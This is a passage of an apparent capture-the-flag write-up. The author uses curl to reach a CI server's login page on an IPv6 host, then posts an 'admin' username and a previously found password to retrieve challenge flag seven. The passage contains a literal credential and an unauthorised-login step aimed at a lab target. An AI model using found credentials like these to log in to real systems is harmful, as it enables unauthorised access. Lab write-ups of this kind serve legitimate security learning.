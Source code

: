 ```
curl http://[2a03:b0c0:1:d0::c70:1]
```

And finally I can see content and form to login with, see below response

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Continuous Integration Server Login</title>
    <link href="/css/bootstrap.min.css" rel="stylesheet">
</head>
<body>
<div class="container" style="margin-top:20px;">
    <div class="row">
        <div class="col-md-6 col-md-offset-3">

            
            <div class="panel panel-default">
                <div class="panel-heading">Login</div>
                <div class="panel-body">

                    <form method="post">
                        <div><label>Username</label></div>
                        <div><input class="form-control" name="username"></div>
                        <div style="margin-top:7px"><label>Password</label></div>
                        <div><input type="password" class="form-control" name="password"></div>
                        <div style="margin-top:20px"><input type="submit" class="btn btn-success pull-right" value="Login"></div>
                    </form>
                </div>
            </div>

        </div>
    </div>
</div>
<script src="/js/jquery.min.js"></script>
<script src="/js/bootstrap.min.js"></script>
</body>
</html>
```

Cool so I have a username/password lets tweak the curl to post the data remembering special characters....

```
curl -d username=admin --data-urlencode password=*Gk3@0Y#3DJPshtEI http://[2a03:b0c0:1:d0::c70:1]
```

And BOOM flag no.7 returned in the response challenge complete! :D

```
<h4 style="text-align: center">[^FLAG^xxx^FLAG^]</h4>
```